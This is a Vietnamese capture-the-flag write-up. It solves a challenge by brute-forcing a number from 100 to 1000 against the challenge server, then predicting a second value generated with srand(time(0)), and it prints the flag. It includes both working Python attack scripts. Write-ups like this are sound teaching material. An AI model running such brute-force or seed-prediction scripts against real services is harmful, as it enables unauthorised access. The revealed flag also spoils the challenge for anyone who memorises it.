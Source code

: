 ### Bài này trước tiên phải connect tới `nc 103.237.98.32 25032` xem là gì.

![](pwn2-1.png)

Ta thấy được chương trình yêu cầu nhập 2 số và số thứ nhất là nằm trong khoảng từ `100-1000`

```py
import socket

host = "103.237.98.32"
port = 25032

def request(ans):
	s = socket.socket()
	s.connect((host,port))
	s.recv(1024)
	s.recv(1024)
	s.send(str(ans)+'\n')
	return s.recv(1024)

def main():
	for i in range(100,1000):
		if "incorrectly" in request(i):
			continue
		else:
			print i
			break

if __name__ == '__main__':
	main()
```
Sử dụng đoạn `script-python` trên để tìm số nhập vào thỏa mãn bước thì giá trị cần tìm là `576`

![](pwn2-2.png)

### Nhập giá trị đầu tiên là 576 ta được thông tin như hình dưới đây:

![](pwn2-3.png)

Nhận thấy số thứ 2 sẽ được chương trình `random` bằng hàm `srand() trong C` với tham số `time(0)`
Sử dụng đoạn `script-python` sau để chạy tìm ra flag.
```py
import socket
from math import *
import time
from ctypes import CDLL
libc = CDLL('libc.so.6')

host = "103.237.98.32"
port = 25032


def request():
    s = socket.socket()
    s.connect((host,port))
    s.recv(1024)
    s.recv(1024)
    s.send(str(576)+'\n')
    s.recv(1024)
    s.recv(1024)
    now = int(floor(time.time()))
    libc.srand(now)
    random_num = libc.rand()
    s.send(str(random_num)+'\n')
    txt =  s.recv(1024)+s.recv(1024)
    return txt

def main():
	print "Attack..."
	check = True
	while check:
		ans = request()
		if "Flag is" in ans:
			print ans
			check = False
		else:
			print "Skip..."


if __name__ == '__main__':
    main()
```
Kết quả được: `Amazing !You are right. Flag is: Life_is_a_story_make_yours_the_best_seller.`
